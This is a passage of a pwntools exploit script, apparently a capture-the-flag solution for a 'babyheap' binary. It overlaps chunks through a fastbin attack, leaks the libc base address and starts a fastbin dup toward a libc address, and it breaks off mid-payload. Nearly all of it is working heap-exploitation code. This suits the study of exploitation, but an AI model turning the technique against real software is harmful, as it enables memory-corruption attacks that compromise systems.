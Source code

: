 ```python

def free(idx):
    p.sendline('3')
    p.sendlineafter(': ', str(idx))
    p.recvuntil(': ')

def dump(idx):
    p.sendline('4')
    p.sendlineafter(': ', str(idx))
    p.recvuntil(': \n')
    data = p.recvline()
    p.recvuntil(': ')
    return data

p = process(['./babyheap'], env={"LD_PRELOAD":"./libc.so.6"})
p.recvuntil(': ')

alloc(0x20)    # chunk 0
alloc(0x20)    # chunk 1
alloc(0x20)    # chunk 2
alloc(0x20)    # chunk 3
alloc(0x80)    # chunk 4

free(1)        # main_arena -> chunk 1
free(2)        # main_arena -> chunk 2 -> chunk 1

# replace chunk 2 fd address to chunk 4
payload  = p64(0)*5
payload += p64(0x31)
payload += p64(0)*5
payload += p64(0x31)
payload += p8(0xc0)
fill(0, payload)

# replace chunk 4 size from 0x91 to 0x31
payload  = p64(0)*5
payload += p64(0x31)
fill(3, payload)

# let chunk 4 both in smallbin and fastbin
alloc(0x20)
alloc(0x20)

# change chunk size
payload  = p64(0)*5
payload += p64(0x91)
fill(3, payload)
alloc(0x80)
free(4)

# leak libc base address
libc_base = u64(dump(2)[:8]) - 0x3a5678
log.info("libc_base: " + hex(libc_base))

alloc(0x68)
free(4)

fill(2, p64(libc_base + 0x3a55ed))
alloc(0x60)
alloc(0x60)

payload  = '\x00'*3
payload += p64(0)*2
```
